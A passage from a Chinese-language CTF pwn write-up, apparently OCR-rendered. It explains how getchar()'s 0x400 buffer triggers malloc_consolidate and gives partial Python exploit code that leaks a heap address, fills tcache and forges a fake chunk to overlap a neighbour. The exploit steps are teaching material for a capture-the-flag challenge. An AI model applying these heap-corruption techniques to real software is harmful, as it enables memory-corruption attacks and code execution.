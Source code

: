 然后，我们执行一下getchar()看看

![](img/1c8bd396271ef8b269f7045a4f66fcff.png)

发现，getchar()初始化了缓冲区，并且**大小为****0x400****，这个大小属于large bin****范围**

因此，**功能****3****可以触发一次malloc_consolidate**

能触发malloc_consolidate，那么，我们就能将fastbin变成unsorted bin来利用

本题最多总能创建18个堆，因此，我们每一次创建都要慎重考虑，尽可能不浪费。

1.  sh.recvuntil('0x')  
2.  #chunk0的地址低2字节  
3.  low_2_byte = int(sh.recv(2),16)  

5.  #chunk0~chunk4这5个chunk用于放入tcache bin  
6.  **for** i **in** range(0,5):  
7.  create(sh,0x50,'f'*0x50)  
8.  #我们需要overlap chunk6，因此，我们需要在chunk6中伪造一个chunk  
9.  #prev_size = 0,size = 0x61,fd = bk = 0，刚好overlap到chunk6结尾  
10.  payload = 'a'*(0x50-0x20) + p64(0) + p64(0x61) + p64(0)*2  
11.  create(sh,0x50,payload) #chunk5  
12.  create(sh,0x38,'b'*0x38) #chunk6  
13.  create(sh,0x50,'c'*0x50) #chunk7 不能靠近top块，因此我们用chunk8挡住  
14.  create(sh,0x50,'d'*0x50) #chunk8  

